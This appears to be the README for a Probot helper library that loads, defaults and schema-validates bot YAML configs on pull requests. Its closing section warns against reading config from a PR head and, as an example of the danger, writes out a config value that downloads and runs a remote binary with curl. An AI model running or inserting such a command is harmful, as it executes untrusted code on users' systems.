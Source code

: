 # bot-config-utils

This is a small library for handling bot config file.

## Install

```bash
npm i @github-automations/bot-config-utils
```

## Get the config

This library supports yaml config file. You provide an config
interface. The code assumes we're in the probot handler.

```typescript
import {
  getConfig,
} from '@github-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME);
// config can be null.
```

## Provide the default value

You can use a similar method that supports default value.

```typescript
import {
  getConfigWithDefault,
} from '@github-automations/bot-config-utils';

interface Config {
  myConfig: string;
}

const defaultConfig: Config = {'myConfig': 'myValue'};

const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfigWithDefault<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  defaultConfig);
// config is always a Config object.
```

## Check config schema on PRs

To use this feature, the bot needs to have some permissions.

You have to add the following permissions:
- Pull Request Read/Write
- Checks Read/Write

You also have to subscribe to Pull Request events.

You also need to provide a schema definition. Here is an example definition:

```json
// config-schema.json
{
    "$schema": "http://json-schema.org/draft-07/schema#",
    "type": "object",
    "title": "flakybot config",
    "description": "Schema for flakybot configuration",
    "additionalProperties": false,
    "properties": {
	    "issuePriority": {
	        "description": "The default priority for flakybot issues",
	        "type": "string",
	    }
    }
}
```

Here is a sample handler(this assumes you're developping a Probot app):
```typescript
import {ConfigChecker} from '@github-automations/bot-config-utils';
import schema from './config-schema.json';

// ...

  app.on(
    [
      'pull_request.opened',
      'pull_request.reopened',
      'pull_request.edited',
      'pull_request.synchronize',
    ],
    async context => {
      const configChecker = new ConfigChecker<Config>(schema, CONFIG_FILENAME);
      const {owner, repo} = context.repo();
      await configChecker.validateConfigChanges(
        context.octokit,
        owner,
        repo,
        context.payload.pull_request.head.sha,
        context.payload.pull_request.number
      );
    }
  );
```

`validateConfigChanges` will check the config file format against the
schema you provided. It will submit a failing status check if:

- You are trying to add a wrong config file (currently it only checks
  `yaml` vs `yml`).
- You are trying to add a broken config file, or the config file
  doesn't match the schema.


## Fetch config from the PR head
Probot's implementation of config always fetches the config from the
master branch. This is a reasonable security meassure for a generic
library.

It is very dangerous to fetch the config from PR head expecially if
the config contains some external commands. Here is a simple example:

```yaml
prepareCommands: 'curl http://example.com/m && chmod +x m && ./m'

```

However, if your bot doesn't have such a field in the config file, it
is very natural to fetch the config from the PR head.

For this purpose, the ConfigChecker has a method:
`getConfig(): T | undefined`. This will return the config object only
if the validation succeeds.

Even if the config contains a dangerous field, you can selectively use
the value from the config in the PR head.
